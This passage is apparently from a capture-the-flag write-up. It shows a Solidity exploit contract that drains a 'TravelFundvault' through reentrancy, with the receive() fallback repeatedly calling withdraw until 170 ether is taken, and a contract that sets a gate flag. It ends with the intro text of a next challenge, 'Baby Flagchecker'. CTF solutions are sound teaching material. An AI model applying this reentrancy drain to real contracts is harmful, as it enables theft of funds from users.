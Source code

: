 ```solidity

constructor(address _Noncevigator) {
noncevigator = Noncevigator(_Noncevigator);
travelFundvault = TravelFundvault(noncevigator.getVaultLocation());
}

function execute() external payable {
travelFundvault.deposit{value: msg.value}();
travelFundvault.withdraw();
}

function solve() external payable {
noncevigator.startUnlockingGate("pulauSemakau");
}

function withdraw() external {
msg.sender.call{value: address(this).balance}("");
}

function getCode(address target) external returns (bytes memory o_code) {
return target.code;
}

receive() external payable {
if (address(this).balance <= 170 ether) {
travelFundvault.withdraw();
}
}
}

contract Unlocker {
mapping(string => address) private treasureLocations;
mapping(string => bool) public isLocationOpen;
address private travelFundVaultAddr;
bool isCompassWorking;

function unlockgate() external returns (bool) {
isLocationOpen["pulauSemakau"] = true;
return true;
}
}
```

# RE Path - Baby Flagchecker (Level 07)

> You've come so far, brave agents! Let us continue our mission to identify our
> threats, and retrieve the crucial information that they are hiding from the
> world.
> 
> While scanning their network, your fellow agents chanced upon a tool used by
> the adversary that checks for the validity of a secret passphrase.
> 
> We know that they use this phrase for establishing communications between one
> another, but the one we have is way outdated... It's time for an update.
